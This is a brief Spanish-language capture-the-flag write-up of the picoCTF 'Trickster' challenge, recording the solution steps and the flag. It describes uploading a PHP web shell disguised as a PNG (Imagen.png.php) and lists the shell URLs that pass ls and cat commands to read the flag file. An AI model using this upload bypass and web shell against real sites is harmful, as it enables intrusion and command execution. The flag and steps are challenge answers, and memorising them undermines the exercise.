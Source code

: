 # 3 - Trickster

## Descripcion:
* I found a web app that can help process images: PNG images only!
Additional details will be available after launching your challenge instance.

## Solucion:
* http://atlas.picoctf.net:56275/
* creamos Imagen.php
* Modificamos Imagen.png.php
* http://atlas.picoctf.net:53229/uploads/Imagen.png.php?cmd=ls
* http://atlas.picoctf.net:53229/uploads/Imagen.png.php?cmd=ls%20..
* MQZWCYZWGI2WE.txt
* http://atlas.picoctf.net:53229/uploads/Imagen.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt
* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}

## Notas:
* entramos a la pagina
* vemos que nos da la indicacion que podemos subir un archivo png
* modificamos un archivo php para que se pueda subir se subio asi que con los parametros que le pusimos podemos indagar por la pagina
* vemos que existe un archivo raro.txt
* abrimos el archivo
* nos da la bandera

## Referencias: